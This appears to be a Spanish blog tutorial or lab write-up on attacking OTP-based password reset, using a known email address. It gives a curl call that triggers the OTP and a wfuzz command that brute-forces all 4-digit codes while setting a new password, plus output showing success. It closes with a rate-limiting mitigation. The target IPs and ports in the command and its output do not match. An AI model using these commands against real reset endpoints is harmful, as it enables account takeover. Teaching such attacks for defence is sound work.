

# Atacando a los sistemas de restablecimiento de contraseñas
Sabemos que las contraseñas son necesarias para la autenticación en diferentes tipos de sistemas. Las empresas, cada vez más por suerte, cuidan que sus políticas de contraseñas sean lo suficientemente robustas para forzar a sus empleados a que sigan las mejores prácticas e intentar impedir que un atacante pueda adivinarlas por fuerza bruta.

Sin embargo, otro vector de ataque son los mecanismos de auto restablecimiento de contraseñas que las empresas ofrecen a sus empleados, por ejemplo, ante un olvido de la misma. En este artículo, veremos cómo aprovecharnos de un mecanismo de restablecimiento de contraseña que usa OTP.

# OTP
Primero, explicaremos qué es OTP. OTP, del inglés One-Time Password, es una contraseña de un solo uso y, por tanto, pierde su validez después de su uso. Habitualmente, es usada como parte de de una autenticación de doble factor o como parte de los mecanismos de restablecimiento de contraseñas. Esta contraseña suele enviarse por correo electrónico o por SMS para que pueda ser introducida por el usuario. También podría ser generada/visualizada mediante aplicaciones como DUO o Microsoft Authenticator.

A continuación, simularemos un ataque a un mecanismo OTP que envía la clave a la dirección del correo electrónico de un usuario dado. Partiremos del correo electrónico obtenido en fases previas de enumeración: MasonJenkins@ymail.com

Según podemos ver en la imagen, tenemos acceso a un punto final de una API que permite restablecer la contraseña de un usuario, añadiendo como parámetros el correo electrónico asociado, la clave OTP y la nueva clave final. En la descripción del propio punto final, vemos que la clave OTP supuestamente tiene una duración máxima de 5 minutos. Dado que no tenemos el control de la cuenta de correo electrónico del usuario, intentaremos un ataque por fuerza bruta al mecanismo OTP que deberá completarse antes de esos 5 minutos.



Tenemos a nuestra disposición otro método de la API, que permite el envío de la clave OTP a una dirección de correo electrónico asociada a una cuenta de usuario.


Realizamos la petición de restablecimiento de contraseña, para que se genere la clave OTP.
```bash
# curl -X 'POST' 'http://94.237.60.154:52829/api/v1/authentication/customers/passwords/resets/email-otps' -H 'accept: application/json' -H 'Content-Type: application/json' -d '{"Email": "MasonJenkins@ymail.com"}'
{"SuccessStatus":true}
```

Es habitual encontrar mecanismos OTP que devuelven contraseñas de entre 4 a 6 carácteres, todos numéricos. A continuzación, realizamos nuestro ataque de fuerza bruta con wfuzz, con un rango para el valor del parámetro OTP desde el 0001 hasta el 9999. Con el parámetro "--hh" ocultamos las peticiones fallidas, que devuelven un total de 23 carácteres ("SuccessStatus": false). 
```bash
#wfuzz -c --hh 23 --hc 404 -u http://94.237.59.180:50815/api/v1/authentication/customers/passwords/resets -z range,0000-9999 -H "Content-Type: application/json" -d '{"Email": "MasonJenkins@ymail.com", "NewPassword": "Test1234", "OTP":"FUZZ"}'

********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************
Target: http://94.237.60.154:52829/api/v1/authentication/customers/passwords/resets
Total requests: 9999

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                                    
=====================================================================
000007435:   200        0 L      1 W        22 Ch       "7435"

                                            
Total time: 51.76655
Processed Requests: 9999
Filtered Requests: 9998
Requests/sec.: 193.1555

```
Como vemos en el resultado de la ejecución de wfuzz, conseguimos en menos de un minuto el código OTP y, por tanto, cambiar la contraseña al usuario.

# Prevención
Para intentar mitigar este tipo de ataques sobre los sistemas OTP, sería importante implementar mecanismos que limiten el número de intentos erróneos sucesivos de restablecimiento de contraseña por IP de origen o usuario durante un periodo de tiempo determinado. 


